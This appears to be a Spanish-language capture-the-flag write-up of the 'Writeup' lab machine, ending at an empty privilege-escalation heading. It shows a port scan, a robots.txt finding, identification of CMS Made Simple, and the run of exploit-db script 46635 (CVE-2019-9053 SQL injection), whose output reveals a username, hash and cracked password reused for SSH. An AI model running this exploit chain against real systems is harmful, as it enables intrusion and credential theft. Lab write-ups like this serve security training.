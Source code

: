 # Writeup
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
```
## Enum
### HTTP 
#### Robots.txt
```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```
Como podemos ver hay un dir deshabilitado veamos que hay dentro

#### Writeup
Wappalyzer nos dice directamente que la página usa CMS Made Simple, hay varios CVE para este CMS pero no sabemos la version exacta asi que enumeremos mas a ver si la descubrimos
```
/administrator <- Login
```
Encontramos el endpoint de login pero ademas encontramos una pieza clave, el Copyright es 2004-2019,asi que deben estar en la version de 2019, eso acota bastante la búsqueda de exploits para el servicio
### CVE-2019-9053
Este CVE parece un buen candidato ya que concede acceso sin necesidad de autenticación previa, busquemos un script para explotar esta time based sqli
```
https://www.exploit-db.com/exploits/46635
```
Lo utilizamos 
```
python2.7 46635.py -u http://10.10.10.138 
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```
La contraseña del CMS tambien vale para el SSH así que were in

## Privesc
